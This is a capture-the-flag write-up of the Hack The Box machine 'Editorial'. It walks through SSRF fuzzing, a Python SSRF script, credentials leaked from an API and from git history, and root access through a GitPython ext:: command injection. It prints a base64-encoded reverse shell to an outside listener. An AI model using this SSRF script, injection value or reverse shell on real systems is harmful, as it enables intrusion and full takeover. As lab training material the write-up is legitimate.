 ```yaml
---
title: Editorial
tags:
  - Linux
  - Fuzzing
  - Python-Scripting
  - Git
  - HackTheBox
  - Easy
---
```

![](Pasted%20image%2020240901150640.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.20 editorial.htb" | sudo tee -a /etc/hosts
```

After that, I performed an Nmap scan:

```shell
nmap -sC -T4 -p- editorial.htb > sC.txt
 
[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http
|_http-title: Editorial Tiempo Arriba
```

So I took a look at the webpage:

![](Pasted%20image%2020240901150852.png)

After some inspection, I decided to perform a subdomain scan with [Ffuf 🐳](/notes/tools/Ffuf.md), but I didn't find anything, so I performed a [dirsearch 📁](/notes/tools/dirsearch.md) scan:

```shell
dirsearch -u http://editorial.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

[redacted]
[15:11:18] 200 -    3KB - /about                                            
[15:11:19] 200 -    7KB - /upload
```

> The `/upload` sounds interesting :3. Let's inspect it:

![](Pasted%20image%2020240901151316.png)

## Exploitation

It seems kinda form submission. Let's try to upload a picture and capture the request with [BurpSuite 📙](/notes/tools/BurpSuite.md):

- If you try to preview the image with the URL related to the book set as `127.0.0.1`, the image shown is the default image:

![](Pasted%20image%2020240901154557.png)

![](Pasted%20image%2020240901154609.png)

We can try to check for SSRF capturing the POST request and then fuzzing it with [Ffuf 🐳](/notes/tools/Ffuf.md):

![](Pasted%20image%2020240901160724.png)

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/Infrastructure/common-http-ports.txt:FUZZ -u http://editorial.htb/upload-cover -request post.req -fs 61

[redacted]
5000           [Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 93ms]
```

Now we can check what does this target:

![](Pasted%20image%2020240901161041.png)

We've just obtained info related to some service in `127.0.0.1:5000`. I crafted a small script to make easier the ssrf:

```python
import requests
import sys
import json

POST_TARGET = "http://editorial.htb/upload-cover"
GET_TARGET = "http://editorial.htb/"

HEADERS = {"Host": "editorial.htb",
          "Content-Length": "307",
          "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36",
          "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundarypAISdQrbltAeHDXW",
          "Accept": "*/*",
          "Sec-GPC": "1",
          "Accept-Language": "en-US,en;q=0.6",
          "Origin": "http://editorial.htb",
          "Referer": "http://editorial.htb/upload",
          "Accept-Encoding": "gzip, deflate, br",
          "Connection": "close"}

POST_DATA = f"""------WebKitFormBoundarypAISdQrbltAeHDXW
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:5000{sys.argv[1]}
------WebKitFormBoundarypAISdQrbltAeHDXW
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarypAISdQrbltAeHDXW--"""

post_result = requests.post(POST_TARGET, headers=HEADERS, data=POST_DATA)
get_result = requests.get(GET_TARGET+post_result.text)
print(json.loads(get_result.text))
```

If we run it like: 

```shell
python3 expoloit.py /

{'messages': [{'promotions': {'description': 'Retrieve a list of all the promotions in our library.', 'endpoint': '/api/latest/metadata/messages/promos', 'methods': 'GET'}}, {'coupons': {'description': 'Retrieve the list of coupons to use in our library.', 'endpoint': '/api/latest/metadata/messages/coupons', 'methods': 'GET'}}, {'new_authors': {'description': 'Retrieve the welcome message sended to our new authors.', 'endpoint': '/api/latest/metadata/messages/authors', 'methods': 'GET'}}, {'platform_use': {'description': 'Retrieve examples of how to use the platform.', 'endpoint': '/api/latest/metadata/messages/how_to_use_platform', 'methods': 'GET'}}], 'version': [{'changelog': {'description': 'Retrieve a list of all the versions and updates of the api.', 'endpoint': '/api/latest/metadata/changelog', 'methods': 'GET'}}, {'latest': {'description': 'Retrieve the last version of api.', 'endpoint': '/api/latest/metadata', 'methods': 'GET'}}]}
```

We can see that there are some endpoints. If we inspect the `api/latest/metadata/messages/authors` endpoint, we obtain this:

```shell
python3 exploit.py /api/latest/metadata/messages/authors

{'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}
```

> We've got credentials!: `dev:dev080217_devAPI!@`. We obtained user flag also :D

![](Pasted%20image%2020240901163200.png)

## Privilege Escalation

We first upload linpeas to the machine, and run it. Nothing is clearly a PE, so I decided to take a look at the `apss` directory. Inside of it there is a git configuration. So we can do the following:

```shell
git log #to see the previous commits done
```

![](Pasted%20image%2020240901164410.png)

There is one of them quite interesting which is `downgrading prod to dev`, so we can show more specific data of that commit using:

```shell
git show [commit_hash]

git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae

[redacted]
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
```

And there it is, we've got prod's creds: `prod:080217_Producti0n_2023!@`.

Once changed the user:

```shell
sudo -l

[redacted]
User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

If we analyze the file:

![](Pasted%20image%2020240901165240.png)

I searched the internet for CVE related to git library and found [https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858)

As it affects versions `[0, 3.1.30]`, I checked the current version in use:

```shell
pip3 list | grep -i git
gitdb                 4.0.10
GitPython             3.1.29
```

So we can exploit this vulnerability :D

I created a `exploit.sh` with the following content:

```bash
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42MC82NjYgMD4mMQ== | base64 -d | bash

# YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42MC82NjYgMD4mMQ== is a simple reverse shell
```

I set up a nc listener, an then I executed the following:

```shell
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh /tmp/exploit.sh'
```

> We are root now, and we've got the root flag :D

![](Pasted%20image%2020240901171120.png)



